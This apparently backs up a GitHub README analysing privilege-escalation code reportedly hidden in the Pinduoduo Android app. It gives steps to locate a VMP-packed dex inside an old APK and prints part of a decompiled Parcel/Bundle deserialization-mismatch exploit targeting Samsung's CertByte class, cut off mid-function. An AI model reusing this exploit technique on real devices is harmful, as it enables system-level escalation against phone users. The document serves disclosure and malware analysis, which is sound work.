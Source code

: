 # 本仓库原作者为[davinci1010](https://github.com/davinci1010),原仓库地址[https://github.com/davinci1010/pinduoduo_backdoor](https://github.com/davinci1010/pinduoduo_backdoor)

做一个备份以防意外



# 拼多多apk内嵌提权代码，及动态下发dex分析

参考「 深蓝洞察 」的文章：https://mp.weixin.qq.com/s/P_EYQxOEupqdU0BJMRqWsw
（Bundle 风水 - Android Parcel 序列化与反序列化不匹配系列漏洞，实现 0day/Nday 攻击，从而绕过系统校验，获取系统级 StartAnyWhere 能力）


复现流程如下：  
下载3月5日前更新的（6.50版本前）的拼多多apk，如6.49版本：  
https://com-xunmeng-pinduoduo.en.uptodown.com/android/download/91472728  

解压apk文件，找到拼多多apk中，提权代码所在的文件位置：  
pinduoduo-6-49-0.zip\assets\component\com.xunmeng.pinduoduo.AliveBaseAbility.7z\com.xunmeng.pinduoduo.AliveBaseAbility\vmp_src\mw1.bin

以上是一个加VMP壳的dex文件，脱壳还原出代码，可以找到针对不同手机厂商系统的多个用于提权的漏洞利用代码，胆子相当的大，比如利用三星手机“com.samsung.android.cepproxyks.CertByte”的提权漏洞，代码如下：


 ```
// assets/component/com.xunmeng.pinduoduo.AliveBaseAbilitiy
// [Manwei]
// com/xunmeng/pinduoduo/android_pull_ablity_comp/pullstartup/SamsungAlivePullStartup 

Public static Bundle makeBundleForSamsungSinceP(Intent intent){
	Bundle bundle = new Bundle();
	Parcel obtain = Parcel.obtain();
	Parcel obtain2 = Parcel.obtain();
	Parcel obtain3 = Parcel.obtain();
	obtain2.writeInt(3);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(3);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(4);
	obtain2.writeString("com.samsung.android.cepproxyks.CertByte");
	obtain2.writeInt(0);
	byte b[] = new byte[0];
	obtain2.writeByteArray(b);
	obtain2.writeInt(0);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(53);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(1);
	obtain2.writeInt(1);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(48);
	obtain2.writeInt(0);
 ```